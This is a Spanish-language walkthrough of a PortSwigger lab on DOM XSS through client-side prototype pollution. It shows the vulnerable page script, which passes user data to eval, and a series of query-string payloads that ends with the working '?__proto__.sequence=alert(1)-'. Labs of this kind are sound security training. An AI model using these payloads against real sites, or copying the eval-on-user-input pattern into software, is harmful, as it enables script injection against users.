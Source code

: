```yaml
---
description: >-
  https://portswigger.net/web-security/prototype-pollution/client-side/lab-prototype-pollution-dom-xss-via-an-alternative-prototype-pollution-vector
---
```


# Lab 3: DOM XSS via an alternative prototype pollution vector

Al validar la siguiente carga no funciona:

```
/?__proto__[foo]=bar
```

Y se puede apreciar al ejecutar lo siguiente desde el devtools: `Object.prototype`

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Por lo anterior, se envia otra carga:

```
/?__proto__.hacked=gerh
```

Y se logra ver que si funciono ejecutando desde el devtools: `Object.prototype`

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Por lo anterior, se procede a analizar el codigo fuente de JS:

```javascript
async function logQuery(url, params) {
    try {
        await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)});
    } catch(e) {
        console.error("Failed storing query");
    }
}

async function searchLogger() {
    window.macros = {};
    window.manager = {params: $.parseParams(new URL(location)), macro(property) {
            if (window.macros.hasOwnProperty(property))
                return macros[property]
        }};
    let a = manager.sequence || 1;
    manager.sequence = a + 1;

    eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');

    if(manager.params && manager.params.search) {
        await logQuery('/logger', manager.params);
    }
}

window.addEventListener("load", searchLogger);
```

El código proporcionado es susceptible a _prototype pollution_ debido a la forma en que se maneja el objeto `params` y la posibilidad de que se manipule de manera insegura. Aquí hay un análisis detallado de las razones:

1.  **Manipulación del objeto `params`**:

    ```javascript
    await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)});
    ```

    El objeto `params` que se envía en el cuerpo de la solicitud podría ser manipulado por un atacante. Si el `params` contiene propiedades que alteran el prototipo de objetos nativos como `Object.prototype`, podría introducir propiedades no deseadas en todos los objetos de ese tipo en la aplicación.
2.  **Uso de `eval`**:

    ```javascript
    eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');
    ```

    El uso de `eval` con datos potencialmente controlados por el usuario (`manager.sequence`) es extremadamente peligroso. Esto permite la ejecución de código arbitrario, lo que podría explotarse para modificar el prototipo de objetos globales.
3.  **Dependencia de `$.parseParams`**:

    ```javascript
    window.manager = {params: $.parseParams(new URL(location)), macro(property) {
            if (window.macros.hasOwnProperty(property))
                return macros[property]
            }};
    ```

    La función `$.parseParams` podría ser manipulada para introducir propiedades maliciosas en `params`. Si `params` se construye a partir de una cadena de consulta controlada por el usuario, esto abre la puerta a la contaminación del prototipo.

Por lo anterior, enviamos la siguiente carga:

```
/?__proto__.sequence=alert(1)
```

Y lo anterior, genero el siguiente error:

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

La anterior payload no funciono y no genero el XSS.

Si analizamos con el debugger, se logra apreciar que el payload se le esta agregando "1" al final:

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Lo anterior es debido a la linea 16 que suma la variable mas "1".

Teniendo en cuenta lo anterior, enviaremos una carga adicionando el caracter "-".

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

La carga utilizada para desplegar el XSS fue la siguiente:

```
?__proto__.sequence=alert(1)-
```

